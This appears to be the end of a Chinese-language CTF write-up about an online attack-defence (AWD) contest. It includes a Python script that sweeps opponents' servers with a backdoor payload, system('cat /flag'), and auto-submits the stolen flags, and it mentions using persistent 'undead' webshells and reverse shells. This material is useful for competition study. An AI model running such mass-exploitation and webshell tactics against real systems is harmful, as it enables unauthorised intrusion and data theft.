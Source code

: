 批量脚本走起

```
import requests
import json
url="http://39.100.119.37:{0}{1}80/login/index.php?pass=Happy.Every.Day&code=system('cat /flag');"
def submit(flag):
    hosturl="http://39.100.119.37:10000/commit/flag"
    data={'flag':flag,"token":"xxxxx"}
    data=json.dumps(data)
    r=requests.post(hosturl,data=data,headers={"Cookie":"PHPSESSID=xxxxx","Content-Type":"application/json; charset=UTF-8"})
    print(r.text)
for j in range(1,4):
    for i in range(1,32):
        i=str(i).zfill(2)
        url1=url.format(j,i)
        print(url1)
        try:
            res=requests.get(url=url1)
            if 'flag' in res.text:
                submit(res.text[0:38])
                print(res.text[0:38])
        except:
            pass
```

## 尾声

最后web基本上都修了，payload已经打不动了

只能靠不死马来get flag

因为开始手快，得分比较多，还有负责修的队友比较给力，掉分不是很多。

然而毕竟是白嫖别人的马，所以增长分数的速度越来越慢

最后还往后掉了一名，不过还拿个小奖hhhhh

## 总结

师傅们一个个都心狠手辣，但是说到最后还是自己有很多没有考虑到的地方。

因为框架主要是需要先弹个shell到自己的服务器，然后才能自动维权，get flag等一系列操作

但是开始框架崩了后直接懵了，不知道怎么办

其实现在想自己完全可以当时重写一个批量种不死马的脚本来维权

但是当时31个队伍，三个一堆洞的web，难免有些手忙脚乱。

有些队伍的通防很厉害，匹配到关键字直接返回一个假的flag，自己准备也写一个。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900441415-0e783513-baab-44dd-8b33-f36d713c0076.png)

怀疑他们用的都是一家的脚本。。。。返回的flag都一样

## 最后

AWD一般都是线下赛，线上AWD见得还不多。

星盟的这个线上赛体验还是很不错的，能够撑住31个队伍，每个队伍5个题也是挺厉害的

中途虽然平台有宕机但是很快就恢复了。

给星盟点个赞，希望星盟以后越做越好~
